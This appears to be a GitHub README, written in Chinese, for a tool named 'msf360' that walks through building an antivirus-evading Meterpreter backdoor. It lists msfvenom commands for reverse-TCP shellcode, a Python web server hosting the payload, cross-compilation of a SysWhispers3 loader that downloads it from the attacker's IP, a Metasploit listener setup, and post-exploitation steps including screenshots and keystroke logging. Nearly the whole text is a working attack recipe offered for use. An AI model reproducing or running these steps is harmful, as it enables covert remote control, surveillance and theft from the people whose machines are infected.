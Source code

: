 # msf360
kali 后门 免杀 过360
第一步：在kali中使用msfvenom生成Shellcode:"msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=x.x.x.x lport=4444 -f raw -o beacon.bin"
第二步：使用python3开启Web服务
  1.新建一个文件夹作为web服务的目录:"mkdir http"
  2.将生成的‘beacon.bin’移动到目录http:"mv beacon.bin ./http/"
  3.启动web服务:"sudo python3 -m http.server -d ./http/"
第三步：生成exe文件
  1.修改SysWhispers3WinHttp.c第40行IP地址
  2.使用Linux64位GCC进行交叉编译:"x86_64-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls64.c SysWhispers3WinHttp.c -masm=intel -w -s -lwinhttp -O1"
  3.将生成的exe文件拷贝到windows机器里
第四步：开启msf监听
  1.进入框架：“msfconsole”
  2.使用监听模块：“use exploit/multi/handler”
  3.设置载荷：‘set payload windows/x64/meterpreter/reverse_tcp’
  4.设置ip和端口和第一步一致：“set LHOST "x.x.x.x" “set lport 4444”
  5.运行：“run”
第五步：运行后门

第六步：监听机器
  1.显示会话:"sessions -l"
  2.进入会话：“session 2”
  3.退出会话：“bg”
  4.基础信息查看
    -1.查看系统信息：“sysinfo”
    -2.查看用户权限：“getuid”
    -3.截图：‘screenshot ’
    -4.开启键盘记录功能：‘keyscan_start’
    -5.显示捕捉到的键盘记录信息：‘keyscan_dump ’

